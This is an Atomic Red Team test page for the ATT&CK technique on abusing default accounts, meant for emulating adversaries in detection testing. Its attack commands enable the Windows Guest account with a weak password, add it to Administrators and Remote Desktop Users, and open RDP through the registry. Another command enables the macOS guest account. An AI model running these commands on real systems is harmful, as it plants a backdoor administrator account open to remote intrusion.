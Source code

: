 # T1078.001 - Valid Accounts: Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems. Default accounts also include default factory/provider set accounts on other types of systems, software, or devices, including the root user account in AWS and the default service account in Kubernetes.(Citation: Microsoft Local Accounts Feb 2019)(Citation: AWS Root User)(Citation: Threat Matrix for Kubernetes)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin privileges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-privileges)

- [Atomic Test #2 - Activate Guest Account](#atomic-test-2---activate-guest-account)

- [Atomic Test #3 - Enable Guest Account on macOS](#atomic-test-3---enable-guest-account-on-macos)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group,
and desktop will allow multiple RDP connections.

**Supported Platforms:** Windows


**auto_generated_guid:** 99747561-ed8d-47f2-9c91-1e5fde1ed6e0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | string | guest|
| guest_password | Specify the guest password | string | Password123!|
| local_admin_group | Specify the admin localgroup name | string | Administrators|
| remote_desktop_users_group_name | Specify the remote desktop users group name | string | Remote Desktop Users|
| remove_rdp_access_during_cleanup | Set to 1 if you want the cleanup to remove RDP access to machine | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup #{local_admin_group} #{guest_user} /add
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup #{local_admin_group} #{guest_user} /delete >nul 2>&1
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /delete >nul 2>&1
if #{remove_rdp_access_during_cleanup} NEQ 1 (echo Note: set remove_rdp_access_during_cleanup input argument to disable RDP access during cleanup)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #2 - Activate Guest Account
The Adversaries can activate the default Guest user. The guest account is inactivated by default

**Supported Platforms:** Windows


**auto_generated_guid:** aa6cb8c4-b582-4f8e-b677-37733914abda





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | string | guest|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no
```





<br/>
<br/>

## Atomic Test #3 - Enable Guest Account on macOS
This test enables the guest account on macOS using sysadminctl utility.

**Supported Platforms:** macOS


**auto_generated_guid:** 0315bdff-4178-47e9-81e4-f31a6d23f7e4






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sysadminctl -guestAccount on
```

#### Cleanup Commands:
```sh
sudo sysadminctl -guestAccount off
```





<br/>
